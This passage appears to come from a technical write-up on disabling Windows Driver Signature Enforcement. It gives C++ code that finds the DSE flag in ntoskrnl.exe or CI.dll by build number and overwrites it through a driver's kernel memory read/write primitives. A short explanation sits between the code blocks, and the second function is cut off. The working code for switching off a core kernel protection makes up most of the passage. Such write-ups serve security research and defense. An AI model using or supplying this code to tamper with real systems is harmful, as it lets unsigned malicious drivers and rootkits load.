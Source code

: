 ```c++
NTSTATUS ControlDSE(HANDLE DeviceHandle, ULONG buildNumber, ULONG DSEValue) {
	NTSTATUS status = STATUS_UNSUCCESSFUL;
	ULONG_PTR variableAddress;
	ULONG flags = 0;

    // locate the address in memory of the DSE variable
	variableAddress = QueryVariable(buildNumber);

    DriverReadVirtualMemory(DeviceHandle, variableAddress, &flags, sizeof(flags));
    if (DSEValue == flags) // current DSE value equals the DSE value we want to set
        return STATUS_SUCCESS;

    status = DriverWriteVirtualMemory(DeviceHandle, variableAddress, &DSEValue, sizeof(DSEValue));
    if (NT_SUCCESS(status)) {
        // confirm the new DSE value is written to memory
        flags = 0;

        DriverReadVirtualMemory(DeviceHandle, variableAddress, &flags, sizeof(flags));
        if (flags == DSEValue)
            printf("New DSE value set\n");
        else
            printf("Failed to set new DSE value\n");
    }
	return status;
}
```

To locate the address of the DSE variable in memory, `QueryVariable()` first retrieves the base address of the loaded module in kernel space. Under the hood `GetModuleBaseByName()` uses `NtQuerySystemInformation()` with the **SystemModuleInformation** information class to retrieve a list of loaded modules and then performs a basic string comparison until it has found the module it's looking for. Next, `QueryVariable()` maps a copy of the module into its own virtual memory, which is later used to calculate offsets, and calls `QueryCiEnabled()` or `QueryCiOptions()` respectively depending on the build number.

```c++
ULONG_PTR QueryVariable(ULONG buildNumber) {
	NTSTATUS status;
	ULONG loadedImageSize = 0;
	SIZE_T sizeOfImage = 0;
	ULONG_PTR result = 0, imageLoadedBase, kernelAddress = 0;
	const char* moduleNameA = nullptr;
    PCWSTR moduleNameW = nullptr;
	HMODULE mappedImageBase;

	WCHAR szFullModuleName[MAX_PATH * 2];

	if (buildNumber < 9600) { // WIN8
		moduleNameA = "ntoskrnl.exe";
        moduleNameW = L"ntoskrnl.exe";
    }
	else {
		moduleNameA = "CI.dll";
        moduleNameW = L"CI.dll";
    }

    // get the base address of the module loaded in kernel space
	imageLoadedBase = GetModuleBaseByName(moduleNameA, &loadedImageSize);
	if (imageLoadedBase == 0)
		return 0;

	szFullModuleName[0] = 0;
	if (!GetSystemDirectory(szFullModuleName, MAX_PATH))
		return 0;
```